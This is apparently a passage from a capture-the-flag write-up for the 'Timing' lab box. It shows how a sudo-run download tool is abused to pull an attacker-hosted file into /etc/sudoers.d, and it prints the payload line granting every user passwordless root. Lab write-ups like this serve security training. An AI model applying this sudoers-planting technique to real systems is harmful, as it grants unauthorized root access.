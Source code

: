 Lets play with this thing.
`sudo /usr/bin/netutils`
```
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://timing.htb 
Initializing download: http://timing.htb
File size: 5609 bytes
Opening output file default
Starting download

[  0%]  .....
Connection 0 finished

Downloaded 5.5 Kilobyte in 0 seconds. (54.54 KB/s)
```

Looks like we download files with this.

> Recall that there was an outbound firewall
{: .prompt-warning }

Test to see if we can grab files from our host.

Demo
```bash
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.19/lmao
Initializing download: http://10.10.14.19/lmao
File size: 28 bytes
Opening output file lmao
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 28 byte in 0 seconds. (0.14 KB/s)
```

Looks like we can hit our box.

This command is practically file write since we can download files. What if we were to add an additional config to /etc/sudoers.d ? Additional configs such as setting sudo to no passwords for all would be useful.

Contents of payload:
```
ALL ALL=(ALL) NOPASSWD: ALL
```
Checking if our payload worked
```
aaron@timing:/etc/sudoers.d$ ls -la
total 16
drwxr-xr-x   2 root root 4096 Jun  9 08:57 .
drwxr-xr-x 104 root root 4096 Dec  2  2021 ..
-rw-r--r--   1 root root   28 Jun  9 08:57 lmao
-r--r-----   1 root root  958 Jan 18  2018 README
aaron@timing:/etc/sudoers.d$ sudo -l
Matching Defaults entries for aaron on timing:
```